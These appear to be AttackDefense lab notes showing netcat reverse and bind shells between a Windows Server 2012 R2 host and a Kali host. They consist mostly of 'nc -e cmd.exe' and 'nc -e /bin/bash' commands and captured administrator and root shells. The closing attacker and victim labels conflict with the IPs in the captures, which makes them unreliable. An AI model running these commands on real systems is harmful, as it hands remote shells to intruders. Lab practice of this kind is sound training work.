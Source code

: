 ```
C:\Users\Administrator\Desktop>nc.exe -nv 10.10.16.3 1234 -e cmd.exe
(UNKNOWN) [10.10.16.3] 1234 (?) open

```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.24.45.
Ncat: Connection from 10.0.24.45:49276.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
win-omcnbkr66mn\administrator
```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

```
root@attackdefense:~# nc -nv 10.10.16.3 1234 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.16.3:1234.

```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.16.3.
Ncat: Connection from 10.10.16.3:49430.
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

```

The Windows Server 2012 R2 is attacker: 10.0.24.45

The kali Linux is the vitim: 10.10.16.3

```
C:\Users\Administrator\Desktop>nc.exe -nvlp 1234
listening on [any] 1234 ...

```
